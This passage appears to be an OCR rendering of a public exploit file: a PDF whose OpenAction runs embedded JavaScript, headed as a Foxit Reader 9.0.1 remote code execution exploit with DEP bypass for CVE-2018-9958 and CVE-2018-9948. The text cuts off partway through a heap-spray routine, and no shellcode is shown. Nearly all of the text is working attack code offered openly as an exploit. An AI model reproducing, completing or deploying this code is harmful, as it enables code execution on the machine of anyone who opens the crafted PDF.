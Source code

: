 EXP
---

    %PDF
    1 0 obj
    <</Pages 1 0 R /OpenAction 2 0 R>>
    2 0 obj
    <</S /JavaScript /JS (
    /*
    #---------------------------------------------------------------------------------------------------#
    # Exploit Title   : Foxit Reader RCE with DEP bypass on Heap with shellcode                         #
    # Date            : 08/04/2018 (4 Aug)                                                              #
    # Exploit Author  : Manoj Ahuje                                                                     #
    # Tested on       : Windows 7 Pro (x32)                                                             #
    # Software Link   : https://www.foxitsoftware.com/downloads/latest.php?product=Foxit-Reader&platform=Windows&version=9.0.1.1049&package_type=exe&language=English
    # Version         : Foxit Reader 9.0.1.1049                                                         #
    # CVE             : CVE-2018-9958, CVE-2018-9948                                                    #
    # Credits to "Mr_Me" for Reseach and initial exploit                                                #
    #---------------------------------------------------------------------------------------------------#
    */
    var heap_ptr  = 0;
    var foxit_base = 0;

    function heap_spray(size){
        var arr = new Array(size);
        for (var i = 0; i < arr.length; i++) {

            // re-claim and stack pivot-0x8
            arr[i] = new ArrayBuffer(0x10000-0x8);//0xFFF8
            var claimed = new Int32Array(arr[i]);
            var c_length = claimed.length;
